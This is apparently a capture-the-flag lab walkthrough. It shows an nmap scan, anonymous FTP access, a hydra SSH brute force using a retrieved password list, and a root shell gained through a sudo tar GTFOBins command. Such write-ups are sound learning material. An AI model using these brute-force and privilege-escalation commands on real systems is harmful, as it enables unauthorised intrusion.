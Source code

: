 
we begin by running an nmap scan we have the following result.

![image](/posts/res/BH1.png) 

we have the following ports open our target system:
 - 21 (ftp)
 - 22 (ssh)
 - 80 (http)
 now lets start our enumeration.


##Enumerating Port 21 (FTP)
from the scan port 21 runs ftp service which has  anonymous login enabled. anonymous login is a method that allows users to access an FTP server without providing any authentication credentials, thus enabling anonymous access. This feature is often used for public file repositories or servers hosting freely available resources. When accessing an FTP server anonymously, users typically input "anonymous" as the username and may use their email address or a generic password like "guest" or "anonymous" as the password. While this grants users the ability to download files from the server, their access privileges are usually limited, often restricting them to read-only permissions. Anonymous FTP login serves as a convenient means for users to retrieve publicly shared data without the need for individual accounts, promoting accessibility to information across the internet. 

now we can exploit this simply by using the following command:

```
ftp <TARGET_IP>
USERNAME: anonymous
PASSWORD: leave_blank
```
![image](/posts/res/BH2.png)

we have just discovered two file via ftp now we download them to our local machine using the following command:

```
mget *
```

![image](/posts/res/BH3.png)

when we cat out the content of the ***locks.txt*** file we can see a list of possible passwords

![image](/posts/res/BH4.png)

the ***task.txt*** file simply gives us a message:
![image](/posts/res/BH5.png)

since we have have a password  list my next assumption was to use this information from we have to perform a bruteforce attack on the ssh service .

##Enumerating SSH
to bruteforce ssh, we would be making use of hydra.

```
command used: hydra -l lin -P /path/to/file/locks.txt 10.10.252.46 ssh
```

now we have a password
![image](/posts/res/BH6.png)

so we can try to login as ***lin*** using ssh

```
command used: ssh lin@<TARGET_IP>
```
![image](/posts/res/BH7.png)

and now to locate the user flag, simply list out the contents of Desktop Directory.

```
command used: ls -la
```

##Privilege escalation 
Let's execute `sudo -l` to observe the privileges granted to the user for running commands as another user or as root.

we are allowed to run the following command:
![image](/posts/res/BH8.png)

we are allowed to run tar as root. now we head over Here [[https://gtfobins.github.io/gtfobins/tar/]] to get a prive-esc command 

from gtfo bin we can simply copy and execute the following command to gain root:

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
![image](/posts/res/BH9.png)

and we are root.


